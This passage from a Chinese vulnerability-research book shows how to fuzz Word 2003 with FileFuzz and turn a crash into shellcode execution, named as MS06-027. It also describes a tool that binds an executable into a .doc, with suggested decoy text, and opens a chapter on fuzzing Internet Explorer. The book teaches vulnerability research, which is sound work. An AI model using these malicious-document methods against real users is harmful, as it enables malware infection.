模板文档文件的产生非常简单，我们通过 Microsoft Office Word 新建一个空白 doc 文件即可，并取名为“test.doc”。

> **小技巧：**模板文档文件的生成是比较简单的一个步骤，但是该文档文件却是决定漏洞挖掘工作成功与否的一个非常重要的因素。开始时可以用空白文档作模板，深入挖掘时应使用内容更丰富的文档（包含文字、图片、书签、超级链接等），这样更容易触发漏洞，但会占用更多磁盘空间。

建立好模板文档文件后，我们需要对 FileFuzz 程序进行初始化。本书光盘中提供的 FileFuzz 是安装程序，安装前需要先安装 Microsoft .NET Framework 2.0（对应安装文件为 dotnetfx_38669.exe）。


图 5.4 FileFuzz 的四个文件

安装好 Microsoft .NET Framework 2.0 后，系统可能需要重启。重启后即可安装 FileFuzz，按默认选项完成安装即可。

安装完成后，FileFuzz 一般位于 `C:\Program Files\iDefense\FileFuzz` 目录。该目录下有四个文件（如图 5.4）：`crash.exe`（监控并记录被测程序错误信息）、`filefuzz.exe`（主程序）、`targets.xsd` 与 `targets.xml`（配置文件）。


图 5.5 用记事本打开 targets.xml 文件

现在需要修改的文件是 `targets.xml`。该配置文件采用 XML 保存被测文件处理软件的信息，但默认内容中没有 Microsoft Office Word，因此需要在 `targets.xml` 中添加 Word 程序的配置信息。

> **小知识：XML（Extensible Markup Language）** 即可扩展标记语言，是一种简单的数据存储语言。它使用一系列标记描述数据，便于构建与处理；虽然通常会占用更多空间，但结构清晰、简单易学。

这里，我们不必弄清楚 XML 语言的详细使用方法，我们只需要“照猫画虎”就能够将 Microsoft Office Word 程序的配置信息添加进 `targets.xml` 这个配置文件中。

首先，将“`<fuzz xmlns="http://www.idefense.com/filefuzz.xsd">`”这一行到“`</fuzz>`”这一行中间的内容全部清空，只保留以下部分的内容：

```xml
<test>
  <name>pdf_acrord32.exe</name>
  <file>
    <fileName>PDF</fileName>
    <fileDescription>Adobe Acrobat 7.0 Document</fileDescription>
  </file>
  <source>
    <sourceFile>ENU\txt.pdf</sourceFile>
    <sourceDir>G:\Program Files\Adobe\Acrobat 7.0\Resource\</sourceDir>
  </source>
  <app>
    <appName>acrord32.exe</appName>
    <appDescription>Adobe Reader 7.0</appDescription>
    <appAction>open</appAction>
    <appLaunch>"C:\Program Files\Adobe\Acrobat 7.0\Reader\AcroRd32.exe"</appLaunch>
    <appFlags>"{0}"</appFlags>
  </app>
  <target>
    <targetDir>c:\fuzz\pdf\</targetDir>
  </target>
</test>
```

上面这一段配置代码是 FileFuzz 程序自带的针对 PDF 文档文件进行测试的配置信息，我们可以直接修改这段配置代码来实现针对 Microsoft Office Word 程序进行测试的配置信息。如下所示（`#` 字符后面的是给读者的解释部分，不要输入到 `targets.xml` 文件当中）。

```xml
<test>
  <name>doc_winword.exe</name>  # 表明本次测试是针对doc文档文件的安全测试
  <file>
    <fileName>DOC</fileName>  # 测试文档文件类型为doc
    <fileDescription>Microsoft Office Word Document</fileDescription>
  </file>
  <source>
    <sourceFile>test.doc</sourceFile>  # 测试模板文档文件的名称
    <sourceDir>C:\...</sourceDir>  # 测试模板文档文件所在磁盘位置
  </source>
  <app>
    <appName>WINWORD.EXE</appName>  # 被测试软件的名称
    <appDescription>Microsoft Office Word</appDescription>
    <appAction>open</appAction>
    <appLaunch>"D:\Program Files\Microsoft Office\OFFICE11\WINWORD.EXE"</appLaunch>  # 被测试软件也就是Word程序所在位置
    <appFlags>"{0}"</appFlags>
  </app>
  <target>
    <targetDir>h:\fuzz\doc\</targetDir>  # 所有待测试文档文件所在的磁盘位置
  </target>
</test>
```

> **小贴士：**这里有几个需要注意的地方。第一个地方是“`<sourceFile>`”这一行所代表的模板文档文件名称需要输入正确。第二个地方是“`<sourceDir>`”这一行所代表的模板文档文件所在磁盘位置也同样需要输入正确。第三个地方是“`<appName>`”和“`<appLaunch>`”，这两个是被测试软件信息。第四个地方是“`<targetDir>`”，这一行所代表的是待测试文档文件所在位置，同时需要确保目标磁盘空间充足（一般最好 2G 以上），否则生成的待测试文档可能失败。

正确修改好 `targets.xml` 文件，就可以直接利用记事本保存 `targets.xml` 文件，如图 5.6 所示。


#### 5.3.2 生成待测试文档文件

第二步：利用字节替换法生成待测试文档文件。

配置好 FileFuzz 程序以后，我们就可以直接运行 FileFuzz 的主程序 `filefuzz.exe` 文件，如图 5.7 所示。

由于这里设置的待测试文档文件保存目录是“`h:\fuzz\doc`”，所以需要在本地 H 盘分区下建立 `fuzz\doc` 文件目录。可以根据自己系统中的磁盘空间大小设置保存目录，并确保该目录所在磁盘空间大于 2G。

接下来，我们就需要通过 FileFuzz 程序来生成待测试文档文件。

FileFuzz 程序提供了四种模式来生成待测试文档文件，分别为：All Bytes、Range、Depth、Match 四种模式，如图 5.8 所示。

**All Bytes** 模式代表的意思是 FileFuzz 程序将会对模板文档文件进行全字节替换测试，逐行逐字节地替换；每替换模板文档文件的一个字节或者几个字节数据，就保存该修改文档文件为待测试文档文件。这种字节替换模式是一种比较全面的待测试文档文件生成模式，它可以测试到模板文档文件中的每一个字节；但是，这也意味着将会生成大量的待测试文档文件。以一个 10,000 字节大小的 doc 文件为例，如果采用“All Bytes”模式，并且设定一次替换一个字节的数据，那么将会生成 10,000 个待测试 doc 文件，而这些待测试 doc 文件占用磁盘空间的大小将会是 10,000×10,000=100,000,000 字节，约为 95M 空间。如果模板 doc 文件再大一点，那么生成的待测试文档文件的数量就会加剧，所占用的磁盘空间就会成倍增长。而对这样大量的待测试文档文件进行测试就需要相当长的时间，如果一次测试需要 5 秒钟，那么 10,000 个待测试 doc 文件全部测试完毕就需要 13 个小时。为此，我们建议在模板文档文件大小适度的情况下，可以采用“All Bytes”模式来生成待测试文档文件。


**Range** 模式是一个比较常用的待测试文档文件生成模式。它的意思是由我们设置一定的范围来修改模板文档文件。例如在“Start”处填 0，在“Finish”处填 10，就意味着只针对模板文档文件开始的 10 个字节进行替换来生成待测试文档文件。这样就有一个好处，如果我们生成的模板文档文件很大，我们可以利用多台计算机，在第一台计算机上利用“Range”模式生成 0 到 10,000 字节的待测试文档文件，而在第二台计算机上利用“Range”模式生成 10,001 到 20,000 字节的待测试文档文件，以此类推，在不同计算机上生成不同范围的待测试文档文件，然后同时进行安全测试，既防止磁盘空间不够，又节省时间，一举两得。


**Depth** 模式是一种逐步递增的模板文档文件修改模式。当我们选择该选项为待测试文档文件生成模式时，需要注意两个地方，如图 5.9 所示。一旦选择“Depth”模式后，填写测试数据的地方就会出现两个文本框（图 5.9 中带有注释的地方），其中第一个文本框必须填写为 00，而第二个文本框则代表着逐步递增修改模板文件最大的数值，最大的数值可填写为 FF。这里我们以填写为 CC 为例，“Depth”选项的“Location”处我们填写的是 2，这意味着 FileFuzz 程序将针对模板文档文件开始偏移 2 字节的地方进行修改，第一次修改为 00，保存该修改文件为第一个待测试文档文件；第二次修改为 01，保存该修改文件为第二个待测试文档文件；以此类推，一直修改为 CC 时，待测试文档文件生成完毕。CC 是十六进制表示，转换成十进制就是 204，于是最终将生成 205 个待测试文档文件（别忘了还有 00 这个待测试文档文件，所以最终生成的待测试文档文件个数为 204+1=205 个）。这种修改模式，我们一般情况下不使用，但是在做全面测试的时候，可以有效地针对模板文档文件的某一个字节数据来生成待测试文档文件，从而进行全面的测试。

**Match** 模式则是一种匹配替换模式。它以替换模板文档文件中我们指定的数据为测试数据来生成待测试文档文件。它也是一种不常用的待测试文档文件生成模式。现在以“All Bytes”模式为例，我们来生成待测试文档文件。选择“All Bytes”模式，如图 5.10 所示。我们需要在“Target”代表的测试数据一栏中进行对测试数据的设置。

本框就是设置替换数据的位置，也就是代表将模板文件中数据替换为其他数据的地方。一般来说，我们对于文件处理软件的测试中有个技巧，就是将这个数据设置为 **FF**，因为 **FF** 是一个字节所能代表的最大数值，这就很可能会触发到被测试软件的整数溢出漏洞。同时，“4”代表的文本框的意思是每次替换几个字节的数据，一般来说，我们都设置为 4，即每次针对模板文件替换 4 个字节的数据。


设置完毕，我们就可以点击“Create”按钮来生成待测试文档文件了，如图 5.11 所示。

我们用 WinHex 打开一个待测试文档文件 0.doc，会发现开始的四个字节数据果然被替换成为四个 FF，如图 5.12 所示。

图 5.11 点击“Create”按钮生成待测试文档文件

#### 5.3.3 进行自动化测试

第三步：利用 FileFuzz 程序进行自动化测试

有了待测试 doc 文档文件，FileFuzz 程序将调用微软的 Microsoft Office Word 程序来依次打开这些待测试 doc 文档文件。点击 FileFuzz 程序界面上的“Execute”按钮切换到自动化测试界面，如图 5.13 所示。


图 5.12 待测试文档的内容是按照生成模式修改的


图 5.13 切换到自动测试界面

一般情况下，图 5.13 这里所有的参数都不需要修改，FileFuzz 程序会自动填写好。其中“Start File”代表从哪一个待测试文档文件开始测试；由于 FileFuzz 程序在生成待测试文档文件的时候，采用数字来命名待测试文档文件，为此，我们可以输入数字，来代表待测试文档文件的名称。“Finish File”则代表自动化测试截止到哪一个待测试文档文件。

这里需要注意的是 **Milliseconds**。

这个选项是一个代表每次测试超时时间的选项。假设 FileFuzz 程序自动测试过程中，当它调用 Microsoft Office Word 程序打开 0.doc 文件后没有发生什么程序运行错误，那么在等待一定时间后，FileFuzz 程序就应当结束对 0.doc 文件的测试，调用 Word 程序继续打开下一个待测试文档文件 1.doc。这里就有一个等待时间长短的问题，也就是“Milliseconds”这个选项代表的时间值。“Milliseconds”这个选项以毫秒计算超时时间，默认情况下，在等待时间超过 2000 毫秒也就是 2 秒钟的情况下，就应当进行下一个待测试文档文件的测试。但是，由于每个读者的计算机性能不一样，如果这个超时时间设置得太短，FileFuzz 程序还没有来得及成功调用 Word 程序就被自动结束进行下一次测试，这就会发生 FileFuzz 程序误以为本次测试发生了错误，从而记录下本次错误信息，然而事实上是超时时间设置太短造成的“误报”。

为此，我们应该将这个“Milliseconds”选项设置得尽量合理，一般取值为 5~10 秒钟比较合适，也就是设置“Milliseconds”选项为 5000~10000。

设置完毕后，就可以直接点击 FileFuzz 程序界面中央的“Execute”按钮来开始自动化测试，如图 5.14 所示。


图 5.14 FileFuzz 开始自动测试的画面

> **注意：**在利用 FileFuzz 程序对 Microsoft Office Word 程序实行自动化测试的过程中，有一个非常需要注意的地方。由于 Word 程序有一种功能，当打开某个 doc 文件出错后，它会在注册表中自动记录下这个出错信息；然后，当我们再次用 Word 程序打开另外一个 doc 文件时，Word 程序会弹出一个警告窗口（如图 5.15 所示）。


图 5.15 Word 程序带有一个安全模式保护功能

Microsoft Office Word 程序的这个功能，原本是为了保障程序在出错的情况下，还能采用安全模式启动，使用户能够继续使用 Word 程序。但是，这个功能却给我们的自动化测试带来了严重的干扰。由于我们利用 FileFuzz 程序测试 Word 的过程，目的是想要发现在什么情况下 Word 会出现错误，如果 Word 第一次发生了错误，则 Word 在下一次被 FileFuzz 自动调用的时候，就会出现图 5.15 所示的警告对话框；如果我们选择“是”让 Word 程序以安全模式启动，那么我们的测试就不完整，因为安全模式下，Word 程序将会禁用很多功能。我们只有选择“否”来以正常模式启动 Word 程序；但是，这意味着我们必须时刻坐在计算机前面，紧盯屏幕，一旦出现图 5.15 的警告对话框我们就要马上点击“否”。这样一来，FileFuzz 程序不但没有让我们享受到自动化测试带来的轻松，反而需要我们保持高度紧张，不断地机械地点击“否”按钮。为了能够排除 Word 程序自带的这种对自动化测试的干扰，这里给读者朋友们介绍一种巧妙的方法来防止 Word 的警告对话框的出现。

由于 Word 一旦发生错误后，会在注册表中“HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Word\Resiliency”这个位置保存下出错信息，如图 5.16 所示。


> **小贴士**：如果你的注册表中没有这个键值，证明你的 Microsoft Office Word 程序在运行过程中从未出现过错误，所以你可以新建“Resiliency”这个键值来按照这里的方法防止 Microsoft Office Word 程序本身的安全模式机制干扰我们的漏洞测试。

我们可以在 FileFuzz 程序自动化测试之前，将注册表这个键值的权限进行修改，从而阻止 Word 在这个键值下记录错误信息。

右击“Resiliency”这个键值，在出现的菜单中选择“权限”，如图 5.17 所示。


出现一个设置“Resiliency”键值权限的对话框，如图 5.18 所示。

在这个对话框中，我们找到自己当前登录用户名，例如我这里登录的用户名为“a.wy”，点击该用户名，在图 5.18 下方的“a.wy 的权限”一栏中，将“拒绝”下方的两个方框打勾，如图 5.19 所示。

点击“确定”按钮，系统会弹出一个警告对话框，不必理会，直接点击“是”按钮，如图 5.20 所示。


这个时候，我们就设置好了“Resiliency”键值的权限。这样一来，只要你是在当前用户所在系统下利用 FileFuzz 程序自动化测试 Word 程序，Word 在发生错误后因为没有足够的权限就无法将错误信息保存进入注册表当中，由此就防止了 Word 程序的安全模式干扰我们的漏洞挖掘工作。

#### 5.3.4 观察分析结果

第四步：观察分析 FileFuzz 程序的测试结果

只要读者按照上面的步骤依次操作，那么利用 FileFuzz 程序自动测试 Word 程序过程中，我们不需要任何人工干预，只需设置计算机不要自动休眠或者关闭硬盘即可。等到 FileFuzz 程序自动测试完毕，FileFuzz 程序会将所有测试结果记录在软件的下方，如图 5.21 所示。

### 5.4 再现 Microsoft Office Word DOC 文件解析漏洞

本节我们将针对微软 Word 程序进行一次真实的漏洞挖掘，读者可以参考上一小节的内容，将 FileFuzz 程序配置好，同时设定好注册表中“Resiliency”键值的权限。接下来介绍一下本次漏洞挖掘的环境。

- 操作系统：Windows XP SP2 32 位版本
- 漏洞挖掘软件：FileFuzz
- 漏洞测试目标软件：Microsoft Office Word 2003 SP2
- 辅助软件：OllyICE 1.0、WinHex 11.15

> **小贴士：**这里请读者注意，被测试的 Microsoft Office Word 2003 程序虽然是 SP2 版本，但是在具体测试过程中，Microsoft Office Word 2003 程序的版本最好是 11.5604.8107 及更新版本。这个信息在 Microsoft Office Word 2003 程序的“帮助”菜单中的“关于 Microsoft Office Word”选项中可以查看到，如图 5.22 所示。


图 5.21 FileFuzz 会自动记录测试结果信息

第一步的工作就是建立模板文档文件 test.doc。这一步工作很关键，运行 Microsoft Office Word 2003 程序，新建一个空白文档，在其中输入 **John Smith**。

此刻，我们输入的“John Smith”这个英文姓名下边就会出现隐约的紫红色线条，如图 5.23 所示。


图 5.22 查看被测试 Word 程序的版本号


图 5.23 注意文字下出现紫色线条

> **小提示：**这里输入英文的人名，原因是让 Word 程序能够利用其自带的“自动更正”功能来检查输入的人名是否正确，同时进行人名的自动识别工作。其实，输入中文内容也可以让 Word 程序调用“自动更正”功能，但是最好输入英文，因为 Word 程序在默认情况下只针对英文人名进行识别。

## 第5章 FileFuzz 的亮相

> 一项功能的测试上，一个软件会提供很多功能，我们在进行安全测试的时候，需要将这些功能一一进行使用，在使用中进行测试。你可以建立一个表格，将被测试软件提供的功能一项一项列出来，之后你就按照顺序一项一项测试即可，这样测试的效果比较全面。

如果你发现你所写的“John Smith”下没有出现如图 5.23 所示的紫红色线条，那么请点击“工具”菜单中的“自动更正选项”，在出现的对话框中找到“智能标记”面板，将其中所有选项都全部选中，如图 5.24 所示。


图 5.24 选中所有的选项

这样一来，你就会发现“John Smith”下已经有了紫红色的线条。接下来，运行 FileFuzz 程序，按照下图所示的内容来配置，如图 5.25 所示。


图 5.25 按照图中显示来配置

按照图 5.25 的内容配置好 FileFuzz 程序后，点击“Create”按钮生成待测试文档文件。然后，切换到 FileFuzz 的“Execute”面板，按照下图配置，如图 5.26 所示。

配置完毕后，点击“Execute”按钮，FileFuzz 程序将开始自动化测试工作。测试完毕后，我们发现在 FileFuzz 记录测试结果的下方窗口中有这样一个记录（注意看文字解释）。

```
[*] crash.exe ... "C:\Program Files\Microsoft Office\OFFICE11\WINWORD.EXE" ... "h:\fuzz\doc\1586.doc"
[*] Access Violation - // 非法访问内存地址
[*] Exception caught at 301bd449 call [ecx+14]
[*] EAX:0ac50320 EBX:00000003 ECX:00000003 EDX:00000000
[*] ESI:00b00290 EDI:00000000 ESP:0012b89c EBP:ffffffff
```

这个测试结果反映出，此刻 Word 2003 程序在打开 1586.doc 这个测试文档文件时发生了严重的错误，错误指令是 `call [ecx+14]`。


图 5.26 按照图中显示来配置

这个结果让我们不得不想到，如果我们能够控制 ecx 寄存器让其指向到一个充满 ShellCode 的内存地址上，那么不就可以控制 Word 2003 程序在打开 doc 文档时运行我们的 ShellCode 代码，从而实现……


图 5.27 Word 程序出现错误提示框

> **小提示：**在你自己利用 FileFuzz 进行安全测试过程中（不论被测试软件是不是 Word 程序），FileFuzz 程序会记录下很多不同的测试结果，那么我们如何区分出哪一个测试结果是有用的呢？这主要看 FileFuzz 错误记录中表明出错指令的地方的指令。如果是类似 `call` 这样的指令出错，那么此刻就需要格外关注，你可以进行更细致地分析错误原因，方法可以参考下面的内容。如果出错指令非 `call` 指令，那么你可以暂时将它忽略。


图 5.28 点击“调试”按钮后会打开 OllyICE 程序界面

现在，我们需要利用 OllyICE 程序来看一看 Word 2003 程序在打开 1586.doc 文件时，究竟是什么原因造成了 Word 2003 程序出错，而我们又能不能控制 `ecx` 寄存器的数值呢？

设置 OllyICE 程序为实时调试器，然后利用 Word 2003 程序打开 1586.doc 文件。此刻，系统会给出一个错误提示窗口，如图 5.27 所示。

点击图 5.27 中的“调试”按钮，我们将会打开 OllyICE 程序的界面，如图 5.28 所示。此刻，出错的指令确实就是 `call [ecx+14]`，请大家注意这个时候的 `ecx` 寄存器数值其实来自于上面的指令 `mov ecx, dword ptr [eax]`。也就是说，`ecx` 的寄存器数值来自于 `eax` 寄存器所指向的内容。那么，通过 OllyICE 程序的内存窗口我们看一看此刻 `eax` 寄存器指向的内容又是什么呢？

在 OllyICE 程序左下角的内存窗口中，按下 Ctrl+G 组合键，输入“eax”回车，如图 5.29 所示。


图 5.29 eax 寄存器指向内存中的内容

看起来好像没有什么特别的地方，别急，让我们用 WinHex 打开 1586.doc 文件，如图 5.30 所示。

请大家对比一下图 5.29 和图 5.30 的内容，原来 `eax` 寄存器指向的内存中的内容就是来自于 doc 文档文件本身！


图 5.30 用 WinHex 打开 1586.doc

这真是太好了，既然 `eax` 寄存器的内容来自于此刻 Word 2003 程序所打开的 doc 文档文件，那么我们就可以将 doc 文档文件相应的位置修改成一个有 ShellCode 代码的位置，最终借助 `eax` 寄存器将这个数值传递给 `ecx` 寄存器，当 CPU 执行到 `call [ecx+14]` 指令时，就马上会调用有 ShellCode 代码的内存地址，从而成功运行我们的 ShellCode。

## 第5章 FileFuzz 的亮相

> **小提示**：ShellCode 代码我们可以直接放置在 doc 文档文件的末尾空白处（即连续显示“00”的地方），用 WinHex 写入到 doc 文档文件中。注意，在选择空白处时，填入 ShellCode 代码后，应该再次用 Microsoft Office Word 2003 程序打开修改后的 doc 文档，用 OllyICE 程序看一看出错的指令还是不是 `call [ecx+14]`，不要因为加入了 ShellCode 而干扰了漏洞触发的位置。

这里为了演示，我们的 ShellCode 选择了一个很简单的代码“EB FD”，意思是回跳指令，CPU 执行这条指令后，就会不断地跳转陷入到一个死循环里，CPU 将会很忙。用 Word 2003 程序打开演示用的 doc 文档后，效果如图 5.31 所示。


通过 FileFuzz 程序我们轻松地挖掘到 Word 2003 程序的一个安全漏洞，这个漏洞的成因就是因为 Word 2003 程序将 doc 文档中的数据作为内存地址传递给寄存器，恶意攻击者就可以借此来控制寄存器的内容，从而最终控制 CPU 运行恶意攻击者指定的 ShellCode。这个安全漏洞被定义为“指针覆盖”式的安全漏洞，意思是通过控制 CPU 中寄存器的数值，从而控制 CPU 的运行。大家以后在针对文件处理型软件的安全漏洞挖掘时需要注重对这种安全漏洞的挖掘，当然，最好的挖掘方法莫过于使用 FileFuzz 程序了。


其实，我们这里演示的这个漏洞就是著名的微软 MS06-027 漏洞。由于这个漏洞可以利用一个普通的 doc 文档文件来实现借助 Word 程序执行任意代码，所以就有人开始利用该漏洞在 doc 文档中加入恶意木马病毒程序，然后将该 doc 文档文件发送给受害者，受害者只要用 Word 程序打开该文档就会感染木马病毒程序。还有人专门利用该漏洞制造了漏洞利用工具，借助该工具，任何人都可以制造出带有木马病毒程序的恶意 doc 文档文件，该工具的使用界面如图 5.32 所示。


该工具的使用非常简单，首先利用 Word 程序建立一个正常的 doc 文档文件，可以在该 doc 文档中输入一些用来迷惑人的内容，例如：xx 的使用说明等等，保存该 doc 文档为“1.doc”。准备好要捆绑的木马病毒程序，这里演示使用 Windows 系统自带的记事本程序为例。运行“浩天 Word 2003 捆绑器”程序，在“需要绑定的 DOC 文件”选择“浏览”按钮，选择到刚才新建立的 1.doc 文件。在“需要绑定的 EXE 文件”选择“浏览”按钮，选择记事本程序，如图 5.33 所示。


一切准备就绪后，点击“生成”按钮，“浩天 Word 2003 捆绑器”程序将会让我们选择生成后的 doc 文件放置目录，如图 5.34 所示。

这里我们将最终生成的 doc 文件命名为“notepaddoc”，点击“保存”之后，你就会发现程序将生成一个名叫“notepaddoc.doc”的 doc 文件。

件的文件大小远远大于原始的 1.doc 文件，如图 5.35 所示。


图 5.35 对比 doc 文件的大小

现在，用前面版本的 Word 程序打开 notepaddoc.doc，你会发现在打开过程中，记事本程序已经被运行起来。注意，此刻需要观察任务管理器中的进程中是不是存在 notepad.exe 进程名（这种判断方法最为稳妥，因为被捆绑的 EXE 文件的运行界面可能会被隐藏），这是因为“浩天 Word 2003 捆绑器”程序中利用的 ShellCode 性质决定的。

这个案例就回答了本章一开始的那个问题：为什么你不经意间打开一个 doc 文档文件就会发现自己的计算机“中毒”了。其实，恶意攻击者完全可以将任何恶意程序捆绑到 doc 文档文件中，然后只要你使用 Word 程序打开这个 doc 文档文件，安全漏洞就会被触发，恶意程序就会被植入到系统当中，危害不言而喻。

### 思考题

- 1、Fuzz 技术的原理是什么？
- 2、本章为大家演示的漏洞挖掘实例中，我们的漏洞挖掘思想是什么？

### 答案

- 1、Fuzz 技术全名为模糊测试技术，这是一种进行软件黑盒测试的技术。黑盒测试主要就是通过使用软件提供的功能来测试软件是不是存在性能或者安全上的问题。Fuzz 技术常常被用在软件漏洞挖掘技术当中，因为软件的源代码很少能够被我们获得，所以我们只能通过测试软件提供的功能来试图发现软件内部存在的安全漏洞。

- 2、由于本章中我们是以测试文字处理软件的安全漏洞为主，这类软件主要功能是处理文档文件。为此，我们就可以通过修改文档文件的数据内容，将修改后的文档文件提供给被测试软件打开，从而观察软件在处理这些被修改后的文档文件时会不会发生安全漏洞。这其实就是一种黑盒测试的方法；为此，我们就可以借助 Fuzz 技术来实现自动化的测试。本章中的 FileFuzz 程序就是利用这个原理来帮助我们实现自动化漏洞挖掘的。

## 第6章 轻量级自动化测试程序 Browser Fuzzer

在前面一章中，我们与大家一起学习了利用 FileFuzz 程序挖掘文件处理软件安全漏洞的方法。在这个过程当中，FileFuzz 程序的自动化测试功能给我们带来了极大的方便，原本枯燥繁琐的漏洞挖掘工作现在完全可以交给 FileFuzz 程序来完成，这期间我们不必理会 FileFuzz 程序的具体工作过程，只需要在整个测试结束后看一看 FileFuzz 程序的测试结果就可以找出安全漏洞了，这真是既简单又快捷的漏洞挖掘方式。

文件处理软件是计算机软件类型中最为常见的一种，利用 FileFuzz 程序我们可以挖掘出这类软件的安全漏洞，但是还有一种类型的软件甚至比文件处理软件更加常见，只要是上网的计算机中都会安装这种软件，它就是“浏览器”软件。

谈到浏览器，我想每位读者都不会陌生，Windows 系统自带的浏览器软件 Internet Explorer 一直是大家最为常用的上网软件。除此之外，火狐浏览器（FireFox）、苹果公司出品的 Safari 浏览器、访问网页速度最快的 Opera 浏览器等都是国内外著名的浏览器软件。还有一些浏览器，如世界之窗浏览器、遨游浏览器、腾讯 Tencent Traveler 浏览器等，它们这些都是以微软的 Internet Explorer 浏览器为内核二次开发的浏览器，所以从内核类型上来说，这些浏览器软件还是归属于 Internet Explorer 浏览器。

浏览器软件最大的功能就是对 Web 应用程序的访问，也就是我们俗称的“网站”。当我们在浏览器软件的地址栏中输入一个网址的时候，浏览器软件就会与该网址对应的远程服务器上的 Web 服务程序进行数据交互，将远程服务器上的 Web 应用程序信息反馈到浏览器界面上，显示给我们，这些数据包括文字、图片、音乐、视频、flash 动画等。这么看起来，浏览器软件的功能似乎与文件处理软件非常类似，因为文件处理软件处理的文档文件也是包含着文字、图片、音乐、视频、flash 动画等数据信息的，只不过文档文件一般保存在本地磁盘上，而浏览器软件处理的数据来自远程 Web 服务器而已。

这就会引发一个思考，文件处理软件我们可以利用 FileFuzz 程序来实现自动化漏洞挖掘，是不是同样的道理，我们可以利用某个程序来实现对浏览器软件的自动化漏洞挖掘呢？别急，答案就在下面要介绍的内容里。

### 6.1 什么是 Browser Fuzzer

浏览器软件在处理远程 Web 服务器传递过来的数据时，会采用一种叫做“HTML”的标准来区分这些数据。由于远程 Web 服务器上存放的数据可以是文字信息，也可以是图片信息，或者是音乐文件等等，为了能够将这些数据区分开来，国际上的开发者们约定了一个标准，即 HTML 标准。HTML 标准规定用不同的“标签”来表示这些数据的类型。例如，“``”这个标签代表着就是一张图片信息；“`<bgsound>`”这个标签就代表着网页中的背景音乐等等。这样一来，远程 Web 应用程序只要按照这些标签分类存放数据信息，通过 Web 服务程序传递给浏览器软件后，浏览器就会依据这些标签来分类显示不同种类的数据信息给用户，这样就将原本混乱的数据信息有效地归类区分，方便了用户对网络数据的查找和检索。

为此，我们在使用浏览器软件打开一个网页后，会发现其实这个网页文件都是以 HTML 标签组成的。你可以用 Internet Explorer 浏览器打开百度的网址 `http://www.baidu.com`，然后，选择 Internet Explorer 浏览器“查看”菜单中“源文件”选项，你就可以看到当前打开网页文件的源代码，你可以发现当前网页文件的源代码就是以 HTML 标签组成的，如图 6.1 所示。

与前一章提到的文档文件不同，这里浏览器软件处理的网页文件不是采用非明文形式的编码格式，而是完全可读的文字符号形式。这意味着，我们利用 Windows 系统自带的记事本程序都可以修改网页文件的内容。既然可以修改，那么毫无疑问，我们也可以利用测试文件处理软件的方法来测试浏览器软件。

思路是这样的：既然浏览器软件以处理包含有 HTML 标签为主的网页文件为主要功能，由于每一种 HTML 标签还带有一定的属性设置选项，我们通过修改 HTML 标签的这些属性设置选项，例如用过长的字符串数据来修改属性设置选项，然后保存修改后的网页文件，调用浏览器软件打开被修改的网页文件，同时监视浏览器软件在处理被修改后的网页文件过程中会不会发生程序出错，以此来发现浏览器软件中可能存在的安全漏洞。


图 6.1 百度首页的源代码

以“``”这个标签为例，该标签代表着图片信息，它有多个属性设置选项，如 `src`、`width`、`height` 等等。其中，“src”这个属性设置选项代表着图片文件所在的位置。“``”这句 HTML 语句就代表着一张来自于 `http://www.baidu.com/baidu_logo.gif` 的图片，当我们把这句 HTML 语句保存为网页文件 1.htm 后，用浏览器打开它，浏览器就会显示出来自 `http://www.baidu.com/baidu_logo.gif` 这个网址的图片，如图 6.2 所示。


图 6.2 百度引用的图片

在测试时，我们就可以将“src”这个属性设置选项赋值为一个过长的字符串，例如 10000 个字符 A，然后保存这个修改后的 HTML 语句为网页文件，再次利用浏览器软件打开，看一看是否会造成浏览器发生运行错误。

这种思路非常类似于我们前面利用 FileFuzz 程序测试文件处理软件安全漏洞的方法，都是通过修改文件的数据值，然后调用浏览器打开被修改后的待测试文档文件，从而检测是否造成软件发生运行错误。为此，我们也可以编写出同样能够实现自动化测试浏览器软件的漏洞挖掘软件，这将是本章 6.3 节中给大家重点介绍的内容。

但是，对于浏览器软件来说，有一个地方与测试文字处理软件不同，浏览器软件处理的网页文件采用的是 HTML 标准，这些 HTML 标签是有着一定的规定的。一般来说，每一个标签都是成对出现的，例如前面演示过的“``”这个代表图片信息的标签，它在使用中……

正确的使用方法应该是这样：`</img>`，注意这里我们在代码的最后加上了 `</img>` 这样的一个标签，这就是 `` 这个标签的封闭标签。由于 HTML 标准的作用就是将数据信息进行分类，那么一个 HTML 标签就应该有始有终地使用，例如 `<b>` 这个标签代表着将文字加粗的意思，如果我们这样写“`<b>加粗`”，那么浏览器在处理这段 HTML 语句时，会发生解析歧义。为了避免这种现象的发生，HTML 标准规定所有的 HTML 标签应当按照成对的方式出现，即利用“`</标签名>`”这样的标签为封闭标签。

可是，HTML 的这个要求并不是强制的要求，即使我们有时没有采用封闭标签，浏览器软件可能同样可以正确解析网页文件。但是，并不是任何时候浏览器软件都可以正确地解析没有成对出现的 HTML 标签。有时浏览器软件在处理这种网页文件的时候就会发生运行错误，甚至有时就会造成漏洞的发生。

下面我们马上将带领读者来利用这个原理挖掘一下 Internet Explorer 6 浏览器的安全漏洞。

### 6.2 自己动手开发 Browser Fuzzer

首先还是老规矩，先介绍一下本次漏洞挖掘的软件环境。

- 操作系统：Windows XP SP2 32 位版本
- 漏洞利用工具运行环境：IIS 5.1
- 漏洞测试目标软件：Internet Explorer 6
- 辅助软件：OllyICE 1.0


图 6.3 IIS 的工作原理示意图

这里唯一需要介绍的就是 IIS 5.1。IIS 5.1 是 Internet 信息服务（Microsoft Internet Information Services）的 5.1 版本。这是一个 Windows 系统下运行 Web 应用程序的服务环境。通常我们见到的网页文件，如 html、htm、asp 都可以被 IIS 正确解析。我们只需要将网页文件或者 Web 应用程序文件放置在 IIS 指定的文件目录下，就可以通过浏览器软件输入 IIS 所在服务器的 IP 地址来访问到这些网页文件或者 Web 应用程序。这个原理可以用一张图来表示，如图 6.3 所示。

默认情况下，IIS 是工作在 80 号端口上的，也就是说，当我们使用浏览器访问某个网址的时候，其实默认情况下浏览器是连接到远程服务器上的 80 号端口与 Web 服务程序进行数据通讯的。IIS 是 Web 服务程序的一种，其它的还有 Apache、Tomcat 等等。


图 6.4 在“控制面板”中找到“添加或删除程序”

IIS 的安装非常简单，将 Windows XP SP2 32 位版本的安装光盘放入到光驱当中，然后，打开当前系统中的“控制面板”，找到其中的“添加或删除程序”，双击打开该选项，如图 6.4 所示。

打开“添加或删除程序”后，点击其右侧的“添加/删除 Windows 组件”，如图 6.5 所示。

点击图 6.5 右侧的“添加/删除 Windows 组件”按钮后，会出现一个“Windows 组件向导”，如图 6.6 所示。

